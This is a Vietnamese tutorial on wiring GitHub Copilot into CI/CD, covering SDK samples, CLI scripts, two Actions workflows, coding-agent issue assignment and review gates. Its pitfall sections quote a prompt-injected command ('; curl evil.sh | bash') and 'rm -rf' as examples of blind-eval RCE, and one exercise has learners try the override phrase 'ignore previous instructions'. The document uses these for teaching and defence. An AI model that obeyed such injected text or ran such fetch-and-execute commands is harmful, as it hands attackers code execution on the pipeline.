

# 12 — Copilot SDK, CI/CD & Automation: Đưa Agent Vào Pipeline Không Treo, Không Bở

> **Dành cho:** dev/tech lead muốn đưa Copilot vào pipeline CI/CD và automation (bài cuối series 01).
> **Vấn đề:** CI runner không có người bấm Allow — job hỏi giữa chừng là treo tới timeout; code AI sinh ra chạy mù trong CI có thể thành lỗ hổng bảo mật.
> **Đọc xong:** có 2 GitHub Actions workflow hoàn chỉnh, automate `gh copilot` CLI, giao việc cho coding agent đúng cách, và setup Copilot code review gate cho team.
> **Thời gian:** ~45 phút.

## Mục tiêu bài học

- Giải thích được vì sao CI chạy Copilot khác hẳn chat trên máy, và nhớ pattern ACI 5 dòng để pipeline không treo, không thành lỗ hổng.
- Phân biệt khi nào dùng `gh copilot` CLI, khi nào tự build agent bằng Copilot SDK, khi nào chỉ cần assign coding agent.
- Copy-paste và chạy được 2 GitHub Actions workflow: auto-review PR mới và triage CI fail ban đêm.
- Viết được một issue "ready" đủ acceptance criteria để coding agent làm đúng ngay lần đầu.
- Nhận diện 7 pitfall của CI automation và áp được checklist setup team trong 1 giờ.

## Mục lục

1. [Giới ngố 5 thuật ngữ (2 phút)](#0-giới-ngố-5-thuật-ngữ-2-phút)
2. [Vì sao đưa Copilot vào pipeline? (pattern ACI)](#1-vì-sao-đưa-copilot-vào-pipeline-pattern-aci)
3. [Copilot SDK — build agent riêng](#2-copilot-sdk-build-agent-riêng)
4. [`gh copilot` CLI automation (copy-paste)](#3-gh-copilot-cli-automation-copy-paste)
5. [2 GitHub Actions workflow hoàn chỉnh](#4-2-github-actions-workflow-hoàn-chỉnh)
6. [Coding agent assign + scheduled routines](#5-coding-agent-assign--scheduled-routines)
7. [Copilot code review workflow](#6-copilot-code-review-workflow)
8. [Setup maintainable + pitfalls + bài tập](#7-setup-maintainable--pitfalls--bài-tập)
9. [Link chéo](#8-link-chéo)

---

## 0. Giới ngố 5 thuật ngữ (2 phút)

Năm khái niệm bạn sẽ va mỗi ngày khi viết pipeline. Mỗi dòng đủ 3 lớp: **1 câu định nghĩa**, **so sánh đời thường**, **ví dụ lệnh thật** — cột Verify để bạn tự kiểm chứng thay vì tin lời.

| Thuật ngữ | 1 câu định nghĩa | So sánh nôm na | Ví dụ lệnh thật | Verify |
|---|---|---|---|---|
| **Copilot SDK** | Bộ thư viện để bạn tự lắp robot Copilot riêng (tools + luật + UI tùy ý). | Mua động cơ + khung xe về độ xe riêng, thay vì gọi taxi (`gh copilot`). | `new CopilotClient({allowedTools: ["read","grep"]})` — robot chỉ được đọc, cấm shell. | Gọi tool cấm → SDK từ chối, log hiện `denied`. |
| **`gh copilot` CLI** | Gọi Copilot từ terminal: gợi ý lệnh, giải thích, giao issue. | Trợ lý đứng sau lưng khi bạn gõ terminal. | `gh copilot suggest "ffmpeg nén 4K→1080p"` → in lệnh copy-paste được. | `gh copilot --version` in ra version. |
| **Actions workflow** | Kịch bản tự chạy trên máy GitHub khi push/PR/đúng giờ. | Đặt báo thức + người giúp việc: "cứ có PR mới là chạy review". | `.github/workflows/copilot-review.yml` chạy `on: pull_request`. | Tab Actions hiện run xanh/vàng sau khi mở PR. |
| **Coding agent** | Copilot cloud nhận issue → tự tạo branch `copilot/*` → mở PR draft. | Giao việc cho thực tập sinh remote: bạn viết spec, 2h sau nhận PR. | `gh copilot assign 123 --repo acme/api`. | `gh pr list --author "app/copilot"` thấy PR mới. |
| **Scheduled routine** | Job chạy theo giờ (cron) để triage/audit đêm. | Ca trực đêm: 22h tự kiểm tra CI gãy, sáng báo cáo. | `cron: "0 22 * * *"` trong `copilot-ci-triage.yml`. | Tab Actions → workflow `Scheduled` + lịch sử runs đêm qua. |

**Vì sao quan trọng?** Bốn trong năm thứ này chỉ là *cách gọi Copilot từ nơi không có người*: nếu bạn lẫn lộn "CLI để sinh lệnh" với "SDK để build agent", bạn sẽ chọn sai công cụ ngay từ đầu — và pipeline vỡ ở bước khó sửa nhất.

**Nếu làm sai thì sao?** Hai hệ quả hay gặp: (1) dùng công cụ interactive trong CI → job treo tới timeout vì không ai bấm Allow; (2) cho coding agent quyền quá rộng rồi merge PR không review → bug hoặc lỗ hổng vào main.

> **Lưu ý 2026:** GitHub phân phối Copilot CLI như binary `copilot` độc lập (`copilot init`, `/usage`, `/mcp`, `/skills`, `/experimental`, `/fork`) — có **3 chế độ agent: interactive / plan / autopilot** (chọn bằng `Shift+Tab` hoặc `copilot --mode`). Các lệnh `gh copilot` bên dưới vẫn dùng được làm ví dụ script — đối chiếu bản hiện hành.

---

## 1. Vì sao đưa Copilot vào pipeline? (pattern ACI)

Câu hỏi gốc rất đơn giản: **vì sao CI chạy Copilot khác hoàn toàn chat trên máy, và pattern nào để pipeline không treo, không thành lỗ hổng?**

Khác biệt cốt tử nằm ở chỗ: chat/VS Code cần người ngồi bấm Allow. CI runner **không có người** — job hỏi giữa chừng nghĩa là treo tới timeout. Mọi thứ dưới đây xoay quanh việc bù lại chỗ "không có người" đó.

**Vì sao quan trọng?** Hiểu điều này thì bạn biết vì sao workflow hợp lệ **không được** chứa bước cần approval, và vì sao secrets phải đi qua env chứ không nhét vào prompt.

**Nếu làm sai thì sao?** Pipeline đầu tiên của bạn sẽ treo 6 giờ rồi fail, hoặc tệ hơn: chạy `eval` một lệnh do AI sinh ra mà không đọc — đúng lỗ hổng RCE qua prompt-injection (xem pitfall mục 7.2).

**Pattern ACI (thuộc lòng 5 dòng):**

```text
- Scope hẹp: 1 repo, 1 task, timeout rõ (timeout-minutes).
- Không interactive: không chờ approval — thay bằng branch protection + review gate.
- Secrets qua env runner (${{ secrets.X }}), KHÔNG hardcode trong prompt/file.
- Output parse được (JSON/markdown) cho step sau.
- Guardrails KHÔNG nới trong CI: branch protection + required checks vẫn ON.
```

Kịch bản hay giao cho automation: auto-review PR mới, auto-fix CI failure (mở PR fix, không push main), triage overnight failures, weekly dep audit, docs sync check sau merge.

### 1.1. Sơ đồ luồng CI an toàn



Giải thích 6 bước:

1. **A → B:** trigger duy nhất là `pull_request` hoặc `schedule` — không chạy theo comment bừa (tránh prompt-injection).
2. **B:** chỉ `contents: read`, thu `git diff` + log cắt 60KB — diff to hơn thì cắt + ghi `truncated=true`.
3. **C → D:** PR mới → request `github-copilot[bot]` review + comment `diff-stat` (không eval code trong CI).
4. **C → E:** cron đêm thấy `conclusion==failure` → mở issue kèm log 8000 ký tự đầu, gắn label `ci`.
5. **D/E → F/G:** mọi merge/fix đều qua người + branch protection — routine chỉ báo cáo, không tự merge.
6. **G → H → B:** vòng khép kín: issue mới → agent PR fix → lại review từ B.

> ✅ **Kỳ vọng:** mở PR test → tab Actions có run `copilot-review` xanh trong 2–5 phút + 1 comment `Auto diff-stat` dưới PR.

---

## 2. Copilot SDK — build agent riêng

Câu hỏi đặt ra: khi nào nên tự build agent bằng SDK thay vì dùng CLI sẵn có, và trạng thái SDK năm 2026 ra sao?

SDK bọc vòng lặp Copilot (tools + permissions + orchestration) để bạn build workflow custom. Dùng khi quy trình team quá đặc thù, cần UI riêng, hoặc nhúng vào backend nội bộ (Slack bot, dashboard, triage service).

### 2.1. Khi nào chọn gì (bảng quyết định)

| Nhu cầu | Hiểu nôm na | Ví dụ | Chọn |
|---|---|---|---|
| 1 job review/audit trong CI | Việc nhỏ 1 bước, cần rẻ. | Review diff mỗi PR. | `gh copilot` CLI / coding agent |
| Multi-step orchestration custom (tools riêng, UI riêng) | Quy trình team quá lạ, cần độ xe riêng. | Bot Slack triage + dashboard nội bộ. | Copilot SDK |
| Nhúng agent vào backend nội bộ | Đưa Copilot vào app công ty. | Nút "Review bằng AI" trong dashboard. | Copilot SDK |
| Task độc lập → branch + PR, không cần trông | Giao khoán 2h, quay lại nhận PR. | Issue rate-limit có acceptance criteria. | Coding agent (assign issue) |
| Việc định kỳ (nightly triage, weekly audit) | Ca trực đêm/tuần tự chạy. | 22h quét CI gãy, sáng T2 audit deps. | Actions `schedule` + CLI/SDK |

### 2.2. Code mẫu SDK (TypeScript — review PR, guardrailed)

```typescript
// examples/copilot-review.ts — chạy: npx tsx examples/copilot-review.ts
import { CopilotClient } from "@github/copilot-sdk";

const client = new CopilotClient({
  // Auth qua env: GITHUB_TOKEN (KHÔNG hardcode — xem mục 2.3).
  token: process.env.GITHUB_TOKEN!,
  model: "gpt-4o",            // chỉ minh họa — 2026 để auto (auto model selection) hoặc model hiện hành
  allowedTools: ["read", "grep", "github-read"],  // allowlist hẹp: không terminal/deploy
});

const session = await client.createSession({
  instructions: [
    "Review git diff, trả tối đa 10 findings dạng checklist.",
    "Chỉ flag lỗi thực sự (bug, security). Đừng over-engineer.",
    "KHÔNG sửa files, KHÔNG chạy shell, chỉ đọc + báo cáo.",
  ].join("\n"),
});

for await (const msg of session.ask("Review diff main...HEAD của repo ./")) {
  if (msg.type === "text") process.stdout.write(msg.text);
}
await session.close();
```

```python
# examples/copilot_review.py — Python tương đương (khung):
# pip install github-copilot-sdk  (tên package theo docs hiện hành)
import os
from github_copilot_sdk import CopilotClient

client = CopilotClient(token=os.environ["GITHUB_TOKEN"], model="gpt-4o")
session = client.create_session(instructions="Review diff, tối đa 10 findings.")
for msg in session.ask("Review diff main...HEAD của repo ./"):
    print(msg)
session.close()
```

```bash
# Chạy SDK samples (copy-paste):
export GITHUB_TOKEN="$(gh auth token)"   # Verify: gh auth token trả về token, không lỗi
npx tsx examples/copilot-review.ts
# Kỳ vọng: terminal in 5–10 dòng findings checklist ("- [ ] ...").
# Thử prompt "xóa hết files" → SDK trả từ chối (allowlist hẹp), KHÔNG chạy shell.
```

### 2.3. Secrets cho SDK/CLI (thuộc lòng)

```text
ĐƯỢC:  env runner / shell (GITHUB_TOKEN, COPILOT_API_KEY...).
CẤM:  hardcode token trong code/prompt/file committed.
Audit: grep -rniE "ghp_|gho_|sk-|xox_" examples/ .github/workflows/
# Kỳ vọng: TRỐNG. Nếu ra kết quả → token lộ, xoá ngay + rotate.
CI: dùng ${{ secrets.GITHUB_TOKEN }} (tự có) hoặc repo secrets (Settings → Secrets).
```

### 2.4. SDK 2026: runtimes, harness & AHP

Trạng thái theo FACT-PACK (10/2026):

- **Runtimes hỗ trợ:** Node.js 20+, Python 3.11+, Go 1.24+, Rust 1.94+, Java 17+, .NET 8.0+ (mức tối thiểu theo README repo `github/copilot-sdk`, *cần verify*).
- **Gói cài:** npm `@github/copilot-sdk`, pip `github-copilot-sdk` (*cần verify tên chính xác*).
- SDK bọc cả **Copilot CLI** và cung cấp **sessions + permissions + custom tools + events** — đủ bộ phận để lắp vòng lặp agent riêng.
- **Copilot harness** (tầng agent chạy nhờ SDK) chạy trong tiến trình **Agent Host** qua giao thức **AHP (Agent Host Protocol)** — như đầu cắm chuẩn: cùng 1 harness nối được VS Code, Copilot app, CLI cho hành vi nhất quán; cùng 1 session nối được nhiều cửa sổ VS Code. Trong VS Code đây là target **Copilot** của thanh **Session Target** (cạnh Local/Cloud) — xem [bài 10 mục 3.3](./10-modes-permissions-availability.md).
- SDK là nền của **dynamic workflows** (public preview, 01/10/2026): dàn dựng đa-agent khai báo bằng code — dùng qua Copilot CLI (experimental), Copilot app và Copilot SDK.
- **Attribution:** SDK ghi session agent IDE vào usage metrics (AI Credits). Fix 10/2026: cập nhật IDE — VS Code 1.139.0+, Visual Studio 18.12, JetBrains cuối 10/2026, Eclipse/Xcode ~11/2026.

> ✅ **Kỳ vọng:** sau phần này bạn trả lời được — SDK 2026 chạy ngôn ngữ nào, harness/AHP là gì, dynamic workflows dựa trên SDK ra sao.

---

## 3. `gh copilot` CLI automation (copy-paste)

Câu hỏi: 3 lệnh `gh copilot` nào đắt giá nhất trong script/CI, và làm sao CLI không treo job?

```bash
# Cài (1 lần):
gh extension install github/gh-copilot
gh copilot --version   # Verify: in ra vX.Y.Z (chưa cài → command not found)

# 3 lệnh dùng nhiều nhất trong scripts/CI:
gh copilot suggest "viết lệnh ffmpeg nén video 4K còn 1080p"
# Kỳ vọng: in 1–3 lệnh shell gợi ý.
gh copilot explain "docker run --rm -v $(pwd):/app node:22 pnpm test"
# Kỳ vọng: giải thích từng cờ, copy-paste được.
gh copilot assign 123 --repo acme/api
# Kỳ vọng: trả link issue đã gán Copilot (mục 5.1 chi tiết).
```

```bash
# Pattern scripts non-interactive (KHÔNG treo CI):
gh copilot suggest "git log 1 dòng đẹp cho release notes" --brief > /tmp/suggest.txt || true
cat /tmp/suggest.txt
# Trong CI: chỉ dùng suggest để SINH lệnh mẫu vào file, step sau human/maintainer duyệt.
# KHÔNG eval output Copilot mù trong CI (prompt-injection → RCE).
```

```bash
# Guardrails CLI (KHÔNG bao giờ nới):
# ✓ scope hẹp (1 repo, 1 issue/PR).
# ✓ secrets qua env (GH_TOKEN/GITHUB_TOKEN), không echo ra log.
# ✓ KHÔNG eval $(gh copilot suggest ...) mù — ghi file + review.
# ✓ timeout mỗi step (timeout-minutes) để job treo tự chết.
```

> **Tip CI an toàn:** luôn `pin` cờ non-interactive của bản CLI bạn dùng + test local trước khi đẩy lên runner.

Copilot CLI độc lập có 3 chế độ agent (chọn bằng `Shift+Tab` hoặc `copilot --mode`) — chọn đúng chế độ trước khi script hoá vào CI:

| Chế độ | Hiểu nôm na | Khi nào dùng |
|---|---|---|
| **interactive** | Hỏi–đáp từng bước, bạn xác nhận mỗi hành động. | Debug, việc cần kiểm soát từng lệnh — mặc định khi chạy tay. |
| **plan** | Chỉ lập kế hoạch, chưa sửa file. | Chia nhỏ issue lớn trước khi implement (`copilot --plan`). |
| **autopilot** | Tự chạy tới xong, không hỏi. | Task đã có spec rõ — bọc sandbox + cap `--max-ai-credits` (mục 5.1). |

---

## 4. 2 GitHub Actions workflow hoàn chỉnh

Hai workflow sẵn copy-paste — auto-review PR mới và triage CI fail ban đêm — kèm khung GitLab tương đương.

### 4.1. Workflow 1 — Auto-review PR mới

```yaml
# .github/workflows/copilot-review.yml
name: copilot-review
on:
  pull_request:
    types: [opened, synchronize, reopened]

permissions:
  contents: read
  pull-requests: write   # để post comment findings

jobs:
  review:
    runs-on: ubuntu-latest
    timeout-minutes: 15
    steps:
      - uses: actions/checkout@v4
        with: { fetch-depth: 0 }

      - name: Setup gh + Copilot CLI
        run: |
          gh extension install github/gh-copilot || true
          gh copilot --version
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}

      - name: Collect diff (guardrailed, read-only)
        id: diff
        run: |
          git diff "origin/${{ github.base_ref }}...HEAD" --stat > diffstat.txt
          git diff "origin/${{ github.base_ref }}...HEAD" > diff.txt
          wc -l diff.txt diffstat.txt
          # Diff >60KB → cắt + note (tránh prompt khổng lồ):
          head -c 60000 diff.txt > diff-truncated.txt
          echo "truncated=$(test $(wc -c < diff.txt) -gt 60000 && echo true || echo false)" >> "$GITHUB_OUTPUT"

      - name: Request Copilot code review
        uses: actions/github-script@v7
        with:
          script: |
            // Cần repo bật Copilot review (mục 6):
            await github.rest.pulls.requestReviewers({
              ...context.repo,
              pull_number: context.issue.number,
              reviewers: ['github-copilot[bot]'],
            }).catch(e => console.log('auto-review skip:', e.message));

      - name: Post diff-summary comment
        uses: actions/github-script@v7
        with:
          script: |
            const fs = require('fs');
            const stat = fs.readFileSync('diffstat.txt', 'utf8');
            const body = `## Auto diff-stat\n\`\`\`\n${stat.slice(0, 3000)}\n\`\`\`\n` +
              `Copilot review đã được request. Human reviewer check CI + findings trước khi merge.`;
            github.rest.issues.createComment({
              ...context.repo, issue_number: context.issue.number, body });
```

> ✅ **Kỳ vọng:** mở PR test → Actions run `copilot-review` xanh trong 2–5 phút, dưới PR có comment `Auto diff-stat` + review từ `github-copilot[bot]`.

### 4.2. Workflow 2 — Overnight CI failure triage

```yaml
# .github/workflows/copilot-ci-triage.yml
name: copilot-ci-triage
on:
  schedule:
    - cron: "0 22 * * *"   # nightly 22:00 UTC
  workflow_dispatch: {}    # + nút chạy tay

permissions:
  contents: read
  actions: read
  issues: write            # mở issue khi CI fail

jobs:
  triage:
    runs-on: ubuntu-latest
    timeout-minutes: 20
    steps:
      - uses: actions/checkout@v4
        with: { fetch-depth: 0 }

      - name: Collect latest failures (read-only, secrets qua env)
        run: |
          gh run list --branch main --limit 5 --json conclusion,name,headSha,url > runs.json
          cat runs.json | jq '.'
          # Lấy log run failed đầu tiên (không tải full nếu quá lớn):
          FAILED_ID="$(jq -r '[.[] | select(.conclusion=="failure")][0].databaseId // empty' runs.json || true)"
          echo "FAILED_ID=$FAILED_ID" >> "$GITHUB_ENV"
          if [ -n "$FAILED_ID" ]; then
            gh run view "$FAILED_ID" --log-failed > failed-log.txt 2>&1 || true
            head -c 40000 failed-log.txt > failed-truncated.txt
            wc -l failed-truncated.txt
          else
            echo "All green." > failed-truncated.txt
          fi
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}

      - name: Open issue if failures found
        uses: actions/github-script@v7
        with:
          script: |
            const fs = require('fs');
            const log = fs.readFileSync('failed-truncated.txt', 'utf8');
            if (/all green/i.test(log)) { console.log('All green.'); return; }
            const runs = JSON.parse(fs.readFileSync('runs.json', 'utf8'));
            const body = `## CI triage ${new Date().toISOString().slice(0,10)}\n\n` +
              `Runs:\n${runs.map(r => `- ${r.name}: ${r.conclusion} (${r.url})`).join('\n')}\n\n` +
              `Failed log (truncated):\n\`\`\`\n${log.slice(0, 8000)}\n\`\`\`\n\n` +
              `Giao cho coding agent hoặc on-call: xác nhận root cause + mở PR fix (không push main).`;
            await github.rest.issues.create({
              ...context.repo, title: `CI triage ${new Date().toISOString().slice(0,10)}`,
              body, labels: ['ci'] });
```

```yaml
# GitLab CI tương đương (khung — .gitlab-ci.yml):
# copilot_review:
#   image: node:22
#   script:
#     - gh extension install github/gh-copilot || true
#     - git diff "origin/$CI_MERGE_REQUEST_TARGET_BRANCH_NAME...HEAD" --stat
#   rules: [{ if: '$CI_PIPELINE_SOURCE == "merge_request_event"' }]
# Secrets: GITHUB_TOKEN qua GitLab CI/CD variables (masked).
```

> ✅ **Kỳ vọng:** chạy `workflow_dispatch` khi có 1 run fail → sáng ra thấy issue label `ci` kèm log cắt 8KB + danh sách 5 runs.

---

## 5. Coding agent assign + scheduled routines

Câu hỏi: viết issue thế nào để coding agent làm đúng ngay lần đầu, và viết job định kỳ kiểu gì cho an toàn khi chạy vắng người?

### 5.1. Assign issue cho coding agent (chất lượng PR = chất lượng issue)

```bash
# Chuẩn bị issue NGON (agent chỉ giỏi bằng issue bạn viết):
gh issue create --repo acme/api --title "feat: thêm rate-limit POST /login" --body "
## Mục tiêu
Thêm rate-limit 5 req/phút/IP cho POST /login.

## Acceptance criteria
- [ ] Quá 5 req/phút → 429 + header Retry-After.
- [ ] Focused test pass: pnpm --filter @acme/api test rate-limit.
- [ ] Không đụng db/migrations đã merge.

## Non-goals
- Không đổi cơ chế auth, không refactor module khác.
" --label "ready"

# Giao cho agent (CLI hoặc web "Assign to Copilot"):
gh copilot assign 123 --repo acme/api
# Verify: gh issue view 123 → assignee hiện Copilot.

# Theo dõi:
gh copilot status --repo acme/api
gh pr list --repo acme/api --author "app/copilot" --state open
# Verify: thấy PR draft copilot/issue-123-*.

# Chạy Copilot CLI (agent trong terminal, 3 chế độ interactive/plan/autopilot — bài 10 mục 3) ở CI:
# copilot --plan "chia nhỏ issue X" rồi copilot --mode autopilot "implement + test"
# (bọc sandbox + --max-ai-credits để cap chi phí — bài 10 mục 3.2)
```

**Quy tắc assign (dán vào CONTRIBUTING):**

- 1 issue = 1 task độc lập, acceptance criteria đo được, non-goals rõ.
- Chỉ assign khi có label "ready". Thiếu criteria → agent đoán mò.
- Agent iterate tối đa 3 rounds (comment request changes). Quá → close + chia nhỏ issue.
- PR agent review như PR người: diff + CI + Copilot review + human approve.

### 5.2. Scheduled routines (việc định kỳ chạy vắng người)

```text
Morning digest • Nightly triage (workflow 2) • Weekly dep audit • Docs-sync check.

Quy tắc viết job định kỳ (như viết skill — steps + verify + output):
- Steps có số thứ tự + lệnh cụ thể (gh pr list, pnpm outdated...).
- Verify: "chỉ báo cáo/mở issue, KHÔNG tự merge/deploy" (chạy vắng người!).
- Output: digest markdown / issue body / Slack (qua webhook env).
- Secrets: ${{ secrets.* }} — không hardcode.
```

```yaml
# Ví dụ weekly dep audit (khung — .github/workflows/copilot-audit.yml):
# name: copilot-audit
# on: { schedule: [{ cron: "0 8 * * 1" }], workflow_dispatch: {} }  # sáng thứ 2
# jobs:
#   audit:
#     runs-on: ubuntu-latest
#     timeout-minutes: 10
#     steps:
#       - uses: actions/checkout@v4
#       - run: pnpm outdated > outdated.txt || true; npm audit --json > audit.json || true
#       - uses: actions/github-script@v7  # post digest issue (chỉ báo cáo, không tự update)
```

---

## 6. Copilot code review workflow

Câu hỏi: làm sao biến Copilot code review thành gate thật trong PR workflow, và tinh chỉnh để team không bỏ qua?

> **Mặc định từ 28/09/2026:** effort review là **Balanced** (nhiều reasoning hơn Lite, tốn AI Credits hơn); bạn chọn được Lite hoặc Balanced — mọi review đều tính **AI Credits + GitHub Actions minutes**.

```text
Luồng PR chuẩn team (dán vào CONTRIBUTING):
1. Push branch feat/* hoặc copilot/* → mở PR (draft nếu WIP).
2. Copilot review tự chạy (auto-request workflow 1 hoặc repo setting).
3. CI lint + test xanh + 1 human approval + Copilot review pass → merge.
4. Merge xong → auto-delete branch.

Setup (repo → Settings → Rules → Rulesets):
- Require Copilot code review: ON (mọi PR).
- Require status checks (lint, test): ON. Dismiss stale reviews: ON.
- Chi tiết server-side: bài 07 mục 6.
# Verify: mở PR test → 2 required checks (Copilot review + CI) hiện pending → xanh.
```

```text
Tune precision (reviewer quá khắt → team bỏ qua → mất gate):
- Dặn trong .github/copilot-instructions.md:
  "Code review: chỉ flag lỗi thực sự (bug, security, perf regression).
   Đừng flag style đã có prettier, đừng over-engineer."
- Calibration hàng tháng: review 5 PRs cũ — findings nào false positive?
  Bổ sung vào instructions ("đừng flag pattern X, team đã quyết dùng").
- CRITICAL/HIGH bắt buộc fix. MED/LOW: fix hoặc reply lý do (không im lặng).
# Kỳ vọng: số "request changes" vô lý giảm sau 1 tháng calibration.
```

---

## 7. Setup maintainable + pitfalls + bài tập

Câu hỏi: setup cả team từ 0 trong 1 giờ cần làm gì, 7 pitfalls ai cũng vấp, và 5 bài tập khép khóa.

### 7.1. Setup team từ 0 (checklist 1 giờ)

```text
[ ] 1. copilot-instructions.md / AGENTS.md + path-scoped instructions (bài 03) — 15 phút
[ ] 2. managed-settings.json cho team (permissions.deny/ask/allow) + content exclusion (bài 07/15) — 10 phút
[ ] 3. husky + lint-staged + branch protection (bài 07) — 15 phút
[ ] 4. MCP GitHub + db instructions nếu có DB (bài 08) — 10 phút
[ ] 5. 2 agents explorer/tester (bài 06) — 5 phút
[ ] 6. Workflow 1 review (mục 4.1) — 10 phút
[ ] 7. 1 issue mẫu "ready" + assign coding agent thử (mục 5.1) — 10 phút
```

**Nguyên tắc phân loại (thuộc 1 câu):** fact mỗi session → instructions; việc lặp → prompt file/skill; cô lập → custom agent; ngoài repo → MCP; phải chạy mỗi lần commit → pre-commit/branch protection; lặp theo lịch → Actions schedule; nhúng hệ khác → SDK/CLI.

### 7.2. Pitfalls + fix (triệu chứng → tra cột fix)

| Pitfall | Hiểu nôm na | Ví dụ | Vì sao | Fix |
|---|---|---|---|---|
| `eval $(gh copilot suggest ...)` mù trong CI | Chạy lệnh AI sinh mà không đọc. | CI chạy `rm -rf` do prompt-injection. | Tiện tay | Ghi file + human duyệt; Copilot output có thể bị prompt-injection |
| Secrets echo ra CI log | In token ra log để debug. | Log hiện `ghp_xxxx` ai cũng thấy. | Debug quên redact | Secrets qua env, `set -x` off khi dùng secrets, GitHub masked vars |
| Job treo vì chờ approval | Job hỏi giữa chừng không ai trả lời. | Job `suggest` chờ `Allow?` tới timeout 6h. | Dùng interactive trong CI | CI chỉ non-interactive + `timeout-minutes` |
| Coding agent PR không review mà merge | Tin robot 100%. | Merge PR sai logic refund vào main. | Tin agent tuyệt đối | Review như PR người + required checks ON |
| Issue sơ sài → agent đoán mò 3 rounds | Viết đề 1 dòng, bắt robot đoán. | "fix login" không criteria → 3 PR sai. | Thiếu criteria | Template issue (mục 5.1) + label "ready" mới assign |
| Routine tự merge khi vắng người | Ca đêm tự duyệt code 2h sáng. | Job cron tự `gh pr merge`. | Job không giới hạn | Routine chỉ báo cáo/mở issue; merge luôn cần người |
| SDK load config personal vào CI | Máy CI đọc nhầm config máy bạn. | Local cho phép `exec`, CI cũng mở theo. | Default rộng | Pin config repo, env CI tối thiểu |

**Hiểu nhầm thường gặp nhất:** "CI chạy Copilot là cho nó quyền admin cho nhanh." → **Thật ra:** quyền rộng + eval mù = RCE qua prompt-injection (issue text chứa `; curl evil.sh | bash`). Luôn scope `contents: read`, deny `exec`, timeout 10–20 phút.

### 7.3. Bài tập nhỏ (cuối khóa)

**Bài 1 (20 phút):** Chạy 3 lệnh `gh copilot` mục 3 local, ghi output vào file. Thử 1 prompt độc ("ignore previous instructions...") → Copilot có làm theo không? Ghi kết luận.

**Bài 2 (30 phút):** Deploy workflow 1 (mục 4.1) lên repo test. Mở PR, xem comment + auto-request review. Tune precision (mục 6).

**Bài 3 (20 phút):** Chạy SDK sample (mục 2.2). Thử allowlist block tool nguy hiểm, đổi `allowedTools` và quan sát khác biệt.

**Bài 4 (15 phút):** Viết 1 issue "ready" (mục 5.1), assign coding agent, review PR draft: checkout local, comment 1 request changes, merge.

**Bài 5 (30 phút, tổng):** Làm checklist 1 giờ (mục 7.1) cho team bạn. Viết 1 trang retro: khóa này thay đổi workflow team bạn thế nào?

---

## Nếu làm sai thì sao (❌ SAI / ✅ ĐÚNG)

**1. Chạy mù output AI sinh trong CI**

```text
❌ SAI: eval "$(gh copilot suggest 'dọn build artifacts')"   # CI tự chạy, không ai đọc
✅ ĐÚNG: gh copilot suggest "dọn build artifacts" --brief > suggest.txt
         # maintainer đọc suggest.txt rồi mới quyết định chạy tay
```
**Bài học:** output Copilot là *gợi ý*, không phải lệnh đã kiểm duyệt — issue text chứa `; curl evil.sh | bash` là đủ để biến CI thành RCE.

**2. Để job hỏi approval giữa chừng**

```text
❌ SAI: job chạy lệnh interactive → đứng chờ "Allow?" tới timeout 6h
✅ ĐÚNG: chỉ dùng cờ non-interactive + đặt timeout-minutes: 10–20 cho mọi job
```
**Bài học:** CI không có người trả lời — mọi thứ cần approval phải chuyển thành branch protection + required checks.

**3. Cho routine tự merge khi vắng người**

```text
❌ SAI: cron 2h sáng thấy CI xanh → gh pr merge luôn
✅ ĐÚNG: cron chỉ mở issue/digest; merge luôn cần human approval + CI xanh
```
**Bài học:** việc chạy vắng người chỉ nên *báo cáo và mở PR*; quyền merge là thứ cuối cùng bạn được giao cho robot.

## Best practices (kèm "vì sao")

- **Mọi job CI phải non-interactive + có `timeout-minutes`.** *Vì sao?* Không có người bấm Allow — thiếu timeout là job treo tới giới hạn mặc định rồi fail vô nghĩa.
- **Secrets luôn qua `${{ secrets.* }}`, không bao giờ trong prompt/file.** *Vì sao?* Prompt có thể bị log ra, còn secret đã commit thì phải rotate — tốn thời gian hơn nhiều so với làm đúng ngay từ đầu.
- **Giữ `permissions: contents: read` cho job review/triage.** *Vì sao?* Quyền ghi rộng + một lệnh bị prompt-injection = kẻ ngoài sửa được repo của bạn.
- **Issue = bản đặc tả, có acceptance criteria + non-goals.** *Vì sao?* Chất lượng PR của coding agent tỉ lệ thuận với chất lượng issue — thiếu criteria là agent đoán mò 3 rounds.
- **Review PR do agent tạo y như PR của người.** *Vì sao?* Agent viết code nhanh nhưng không chịu trách nhiệm tính đúng — required checks + human approve là lưới an toàn duy nhất.
- **Routine định kỳ chỉ báo cáo/mở issue, cấm tự merge/deploy.** *Vì sao?* Job chạy lúc 2h sáng không có ai quan sát; giao quyền merge cho nó là mở cửa cho sự cố im lặng.
- **Pin cấu hình + test workflow local trước khi đẩy lên runner.** *Vì sao?* Runner không có config máy bạn; default rộng ở local (cho phép `exec`) có thể bị mang nguyên lên CI.

## So sánh với Claude Code

| Việc | Copilot | Claude Code | Ghi chú |
|---|---|---|---|
| Chạy không người trong CI | GitHub Actions + coding agent cloud (assign issue → PR) | `claude` CLI chạy trong CI (bạn tự bọc vào workflow) | Copilot gắn sẵn với Actions; Claude Code là CLI bạn tự động hoá |
| Nền để tự build agent | Copilot SDK (`@github/copilot-sdk`) | Claude Agent SDK | Cùng ý tưởng bọc vòng lặp agent; tên gói/API khác — *cần verify* |
| Gợi ý/giải thích lệnh shell | `gh copilot suggest` / `explain` | Không có lệnh tương đương trực tiếp | Claude Code thiên về agent hơn là trợ lý lệnh đơn lẻ |
| Review PR tự động | Copilot code review (`github-copilot[bot]`) là bot gắn sẵn | Chạy được qua Actions/CLI nhưng không phải bot review mặc định | Copilot có gate review cấu hình trong Rulesets |
| Guardrails quyền | `allowedTools`, managed settings, branch protection | Permission mode + allowlist trong settings | Cùng tư tưởng allow/deny — đều nằm ở phía harness, không ở model |
| Kiểm chứng | Bạn chạy test/CI | Bạn chạy test/CI | **Không agent nào tự chịu trách nhiệm đúng/sai** |

> Đọc bảng này thế nào: phần "tự động hoá không người" thì Copilot có lợi thế vì gắn liền GitHub (Actions + coding agent); Claude Code bù lại bằng cách chạy CLI linh hoạt trong bất kỳ runner nào. Khi lần đầu chuyển công cụ, nhớ lại đúng một điều: cả hai đều để **con người làm chốt merge**.

---

## 8. Link chéo

